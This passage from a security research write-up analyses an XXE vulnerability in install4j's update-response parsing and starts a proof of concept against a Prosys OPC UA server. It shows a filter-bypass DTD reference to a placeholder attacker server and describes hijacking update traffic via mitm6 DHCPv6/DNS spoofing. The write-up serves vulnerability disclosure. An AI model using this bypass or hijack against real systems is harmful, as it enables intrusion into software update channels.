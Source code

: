 ```java
    }
    try {
        return documentBuilder.parse(inputSource); // [8]
    }
    catch (final SAXException e2) {
        throw createIoException(e2);
    }
}
```
At `[1]` a `parseFile` method is called with a `File` object containing the response of the update server. This later calls a `parse` method `[2]` with the parameter `downloadExternalEntities = false` from the previous call.
At `[3]`  a `DocumentBuilderFactory` is created with help of `com.sun.org.apache.xerces.internal.jaxp.DocumentBuilderFactoryImpl` at `[4]`. Then the `DocumentBuilder` gets instantiated at `[5]`.
It seems some default XXE mitigations were put into place by the `downloadExternalEntities` member being set to `false` as mentioned above. This will lead us into the `if` branch at `[6]`, checking for `PUBLIC` and `SYSTEM` identifiers in the XML being parsed.
Even though `startsWith("http:/")` and `startsWith("https:/")` checks at `[7]` should take care of preventing disallowed **(external) entities and document type declarations**, referencing a remote **DTD** file then being fetched with a HTTP request,
this can be easily bypassed by e.g. using **UPPERCASE** protocol handler definitions such as `SYSTEM "HTTP://ATTACKERSERVER/BAD.DTD"`. Finally, the dangerous  sink at `[8]` is called. Additionally other file protocol handlers such as `file://` or `jar://` are not taken into account, yet. Note that the `EntityResolver` protection given by [OWASP XXE Mitigations](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#no-op-entityresolver) is more
restrictive and should have been the way to go.

# PoC based on "Prosys OPC UA Simulation Server"

Since this vulnerability in install4j was found during a security review on another product, the proof-of-concept (PoC) exploitation will be shown for the **[Prosys OPC UA Simulation Server](https://www.prosysopc.com/products/opc-ua-simulation-server/)** on **Windows** (it was the first download link tbh).
install4j takes care of proper TLS/SSL handling + verification of the update server in `com/install4j/runtime/installer/helper/content/UrlConnectionWrapper`. But in general, several cases allow an easy hijack of the update server communication:
* The product chooses to use HTTP instead of HTTPS connections
* The `acceptAllCertificates` attribute is set to `true` in the install4j configuration file such that TLS/SSL verification gets deactivated with help of the install4j method `private Runnable acceptAllCertificates()`
* A central TLS/SSL inspection component would break the trusted chain of verification depending on its (mis)configuration (already seen "in-the-wild" :-P)
* There exist other cases but this is not the main purpose of this blog post to list them all

Note that this hijacking part is not a vulnerability in install4j itself but depends on certain configurations of install4j and server infrastructure on the affected product side, respectively. Nevertheless, this is a valid attack vector and should not lead to a vulnerable sink indeed existing in install4j: the XXE described above.
Hijacking requests/responses is often an easy task for attackers today by impersonating the update server. In our case, a Windows server is attacked first with help of the tool *[mitm6](https://github.com/dirkjanm/mitm6)*. Windows prefers IPv6 configurations over IPv4 which means that DHCPv6 questions
into the local network could be answered by a malicious instance, allowing to hijack the DNS server configuration on Windows. Then the update server hostname could be set to the attacker machine IP address so that afterwards all traffic between the client and update server
flows in an attacker-controlled manner. There are other attacks such as ARP-poisoning etc. which would be valid attack vectors for installations on \*nix operating systems, too.
